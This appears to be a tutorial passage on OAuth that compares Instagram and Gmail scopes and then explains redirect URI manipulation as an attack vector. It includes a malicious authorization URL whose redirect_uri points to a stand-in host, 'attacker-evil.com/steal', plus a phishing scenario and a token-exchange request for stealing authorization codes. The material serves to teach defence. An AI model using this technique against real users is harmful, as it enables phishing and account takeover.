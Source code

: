 ### Key Difference Between Platforms:

**Instagram**:
- May ask for `user_profile` scope (name, photo, bio)
- May ask for `user_media` scope (access to posts)
- Recently moved to require Facebook Login for some apps

**Gmail**:
- Can request `openid` (confirm identity)
- Can request `profile` (name, picture)
- Can request `email` (email address)
- Can request `drive` (access to Google Drive)
- Can request more granular scopes

**The principle is identical** - the user approves what data is shared, and a secure token exchange happens on the backend.

---

## Common Attack Vectors {#attacks}

### Attack 1: Redirect URI Manipulation / Open Redirect

#### How It Works:

The attacker modifies the `redirect_uri` parameter to point to their own server instead of the legitimate app.

```
Normal flow:
GET https://accounts.google.com/oauth/authorize?
  client_id=LEGIT_ID&
  redirect_uri=https://legitimateapp.com/callback&
  ...

Attacker's malicious link:
GET https://accounts.google.com/oauth/authorize?
  client_id=LEGIT_ID&
  redirect_uri=https://attacker-evil.com/steal&
  ...
```

#### Attack Scenario:

```
1. User receives email: "Verify your account at legitimateapp.com"
   (Link actually points to attacker's malicious authorization URL)

2. User clicks link, gets redirected to Google login
   Doesn't realize the redirect_uri is wrong

3. User logs in with their Google account

4. Google redirects user to attacker's server:
   https://attacker-evil.com/steal?
     code=REAL_AUTHORIZATION_CODE&
     state=...

5. Attacker now has the real authorization code!

6. Attacker's backend trades this code for access token:
   POST https://oauth2.googleapis.com/token
   code=REAL_AUTHORIZATION_CODE&
   client_id=LEGIT_ID&
   client_secret=...&
   redirect_uri=https://attacker-evil.com/steal
```